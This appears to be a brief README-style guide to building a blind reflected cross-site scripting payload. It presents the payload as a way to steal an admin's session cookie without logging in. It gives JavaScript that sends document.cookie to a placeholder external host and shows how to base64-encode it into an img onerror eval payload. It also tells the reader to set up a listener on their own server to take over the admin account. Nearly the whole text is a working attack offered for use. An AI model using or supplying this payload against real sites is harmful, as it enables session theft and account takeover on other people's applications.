 #You can perform blind reflective xss without logging into the application and even be able to get the cookie from the admin account
![xss](/xss.jpg)
#How to Create your Payload:
1. convert "var a=document.createElement("script");a.src=" http://domain.tld/a.js?"+document.cookie;document.body.appendChild(a);" into base 64 data example 
  dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9IiBodHRwOi8vZG9tYWluLnRsZC9hLmpzPyIrZG9jdW1lbnQuY29va2llO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk77

2. add your base 64 data in pace of data in the payload "<img Src=x Onerror=eval(atob(this.id)) Id="data">"

3. create a listner on your server with a file a.js that does nothing or you could add something you wish to get the admin account done.. up to you!

The final payload will look like:
<img Src=x Onerror=eval(atob(this.id)) Id="dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9IiBodHRwOi8vZG9tYWluLnRsZC9hLmpzPyIrZG9jdW1lbnQuY29va2llO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk77">
